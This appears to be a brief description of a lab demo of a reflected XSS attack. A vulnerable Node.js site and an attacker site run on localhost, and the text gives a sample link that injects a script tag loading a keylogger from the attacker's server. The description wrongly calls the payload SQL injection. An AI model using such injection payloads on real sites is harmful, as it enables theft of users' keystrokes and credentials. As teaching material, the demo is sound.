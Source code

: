 "This deals with reflected XSS vulnerabilities. You will find a vulnerable Node.js website and an attacking website. The attacker sends a link to the victim. This link executes a keylogger present on the attacker's site. The keystrokes are transmitted to the attacker's website. The URL of the site is http://localhost:3000, and the URL with the SQL injection sent to the victim is http://localhost:3000/?name=<script src="http://localhost:3001/keylogger.js\"></script>."
